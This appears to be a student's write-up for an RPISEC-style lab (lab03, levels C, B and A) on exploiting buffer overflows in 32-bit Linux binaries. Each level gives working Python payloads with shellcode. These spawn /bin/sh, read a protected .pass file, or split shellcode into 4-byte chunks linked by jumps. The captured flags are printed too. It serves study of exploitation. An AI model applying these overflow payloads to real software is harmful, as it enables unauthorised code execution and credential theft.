


## lab03

**Level C**
After reviewing both the source and machine code, I extract some message of the variable:

+ `a_user_name`: global variable at `0x8049c40`, compared with `"rpisec"` for only 6 leading characters, its max length is 100 characters but the `fgets` wrongly assigns 0x100=256 characters to it.
+ `a_user_pass`: local variable at `esp+0x1c` and last to `esp+0x5c`. The input state is similar to previous one and hence it is a overflow vulnerability.

The solution is: injecting the shellcode into global variable, then overflowing the local variable so that the main function will return to our shellcode. (Here I made a mistake, the local variable is on the stack which cannot be injected, but I don't know why.)

The payload is:
```python
a_user_name = "rpisec" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80" + "\x90"*10
a_user_pass = "admin" + "\x90"*75 + "\x46\x9c\x04\x08"
print a_user_name
print a_user_pass
```
Then run `(python explot; cat;) | ./binary` similar to the last lab.

The flag is `th3r3_iz_n0_4dm1ns_0n1y_U!`.

---

**Level B**
I first calculate the hexdecimal representation of the flag file's location (mind the little endian):

```python
import binascii

p = "////home/lab3A/.pass"
rp = p[::-1]
hrp = binascii.b2a_hex(rp.encode("ascii"))
for i in range(0, 40, 8):
    print '0x' + hrp[i:i+8]

# result:
# 0x73736170
# 0x2e2f4133
# 0x62616c2f
# 0x656d6f68
# 0x2f2f2f2f
```

The I need a program to open and read the `.pass` file:



In GDB, the location of `buffer` is `0xbffff660`, however, in real runtime, this address may be different (Hacking, The art of exploitation. 0x330, 0x481). A useful ways is padding `0x90` bytes, and return to an approximate address.

Another attention is that the stack should be recovered when overflowing `buffer` so that parent process can exit normally in the sandbox.

```python
shellcode = "\x31\xc9\xf7\xe1\xb0\x05\xb2\x01\x51\x68\x70\x61\x73\x73\x68\x33\x41\x2f\x2e\x68\x2f\x6c\x61\x62\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\xb2\x20\xcd\x80\x92\x31\xdb\xb3\x01\xb0\x04\x31\xd2\xb2\x20\xcd\x80\x93\xcd\x80"
addr = "\x40\xf6\xff\xbf"
post = "\xc4\xd3\xfc\xb7\x00\xf0\xff\xb7\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd0\xfc\xb7\x00\x00\x00\x00\x00\x00\x00\x00"
payload = "\x90"*50 + shellcode + "\x90"*(156-50-len(shellcode)-len(post)) + post + addr
print payload
```


Flag is `wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd`.

---

**Level A**
First thing is analyze C source code. This program stores number in an array and read it by index. The array `data` is exploitable since it is sufficiently long to inject our shellcode. Input of command is limited to three types, and the command buffer `cmd` cannot be exploited since it is accepted by `fgets` function and limited to 20 bytes length.

All numbers and indices are accpeted from standard input and read as unsigned integer. However, there is one more constraint: the indices which is the multiple of 3 is inaccessible. My approach is: store a single shellcode's instruction at position 1, then store the jump command at position 2 which leads the control flow to position 4. Position 3 is ignored.

Here I made a mistake, `jmp` instruction followed by a single byte is assembled to machine code `eb .byte`, taking two bytes (but not 1(byte of `jmp`)+4(length of absolute address)=5 bytes), hence the whole assembly code could be more compact. The assembly code is shown below, note that it is intentionally written so that each instruction takes less than 4 bytes.


In the payload, each instruction is grouped in 4 bytes (padding with nop), at last we should overwrite the return address. Luckily, the first attempt of return address successfully leads the pipeline into the shellcode. The python payload:

```python
# expolit payload grouped by 4 bytes per instruction, format is "\x90"*n + shellcode + "\x90"*n
inst = ["\x90\x31\xc0\x90", "\x90\x90\x50\x90", "\x90\xb0\x68\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x73\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x2f\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x2f\x90", "\x90\x90\x50\x90", "\x90\xb0\x6e\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x69\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x62\x90", "\xc1\xe0\x08\x90", "\x90\xb0\x2f\x90", "\x90\x90\x50\x90", "\x90\x31\xc0\x90", "\x90\x89\xe3\x90", "\x90\x89\xc1\x90", "\x90\x89\xc2\x90", "\x90\xb0\x0b\x90", "\x90\xcd\x80\x90"]
nopsled = ["\x90"*4 for k in range(6)]
inst.extend(nopsled)
nopsled = ["\x90"*4 for k in range(6)]
nopsled.extend(inst)
inst_iter = iter(nopsled) # iterator for exploit payload (in words)

# change 4 bytes into an unsigned integer, which should be in little endian
def get_unum(word):
    unum = ord(word[-1])
    unum = unum*256 + ord(word[-2])
    unum = unum*256 + ord(word[-3])
    unum = unum*256 + ord(word[-4])
    return unum

index = 1
while index <= 108: # there are 108 indices between address of data array and return address
    print "store"
    print get_unum(inst_iter.next()) # store the instruction as integer
    print index
    index += 1
    print "store"
    print get_unum("\xeb\x06\x90\x90") # store the jmp instruction
    print index
    index += 2 # index+1 is multiple of 3, ignore it

print "store"
print get_unum("\x48\xf5\xff\xbf") # overwrite return address
print index
print "quit" # exit main fucntion
```


The flag is `sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps` (What the f##k?).
